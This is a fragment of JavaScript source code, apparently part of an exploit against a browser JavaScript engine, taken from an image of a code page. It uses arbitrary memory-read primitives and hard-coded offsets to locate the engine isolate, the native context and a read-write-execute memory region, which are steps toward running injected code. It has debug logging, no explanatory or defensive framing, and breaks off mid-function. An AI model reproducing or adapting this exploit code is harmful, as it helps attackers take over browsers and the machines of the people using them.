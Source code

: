 ```

function field(obj, idx) {

  return read(obj.add_u32(idx * 8 - 1));

}



function get_rwx() {

  var memory_chunk = global.and(mku64((1 << 19) - 1).not());

  console.log('memory_chunk: ' + memory_chunk.str());

  //debug();

  var heap = read(memory_chunk.add_u32(0x38));

  console.log('heap: ' + heap.str());

  var code_space = read(heap.add_u32(0xdd8));

  console.log('code_space: ' + code_space.str());

  var alloc_info = code_space.add_u32(0x250);

  console.log('alloc_info: ' + alloc_info.str());

  var limit = read(alloc_info.add_u32(0x10));

  var rwx = limit.sub_u32(0x13ef00+0xbb8c0);

  console.log('rwx: ' + rwx.str());

  //debug();

  return rwx;

}



function find_global() {

  array_buffer_allocator = read(superpage.add_u32(0x1000));

  console.log('array_buffer_allocator: ' + array_buffer_allocator.str());

  //debug();

  var isolate_data = read(array_buffer_allocator.add_u32(0x820c390));

  isolate = read(isolate_data);

  console.log('isolate: ' + isolate.str());

  var context = read(isolate.add_u32(0x1860));

  console.log('context: ' + context.str());

  var native_context = field(context, 2 + 3);

```